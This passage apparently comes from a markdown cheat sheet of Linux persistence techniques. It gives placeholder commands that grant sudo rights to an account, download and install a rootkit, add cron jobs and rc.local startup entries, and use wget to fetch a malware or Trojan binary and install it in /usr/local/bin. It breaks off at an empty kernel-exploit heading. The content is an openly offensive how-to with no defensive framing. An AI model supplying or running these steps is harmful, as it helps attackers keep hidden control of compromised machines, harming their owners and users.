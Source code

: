    - Modify existing user account privileges:

     ```
     sudo usermod -aG sudo <username>
     ```

2. **Rootkits:**
   - Install and configure a rootkit:

     ```
     # Replace <rootkit> with the desired rootkit name
     wget <rootkit_url>
     tar -xzf <rootkit.tar.gz>
     cd <rootkit>
     make
     make install
     ```

3. **Cron Jobs:**
   - Create a cron job to execute a command/script:

     ```
     crontab -e
     # Add the following line to the crontab file
     * * * * * <command/script>
     ```

4. **Startup Scripts:**
   - Modify system startup script (e.g., rc.local):

     ```
     sudo nano /etc/rc.local
     # Add the following line before "exit 0"
     <command/script>
     ```

5. **Malware Persistence:**
   - Install a persistent malware or Trojan:

     ```
     # Replace <malware> with the desired malware name
     wget <malware_url>
     chmod +x <malware>
     sudo mv <malware> /usr/local/bin/

     ```

6. **Kernel-level Exploits:**
   - Exploit a vulnerability in the Linux kernel:

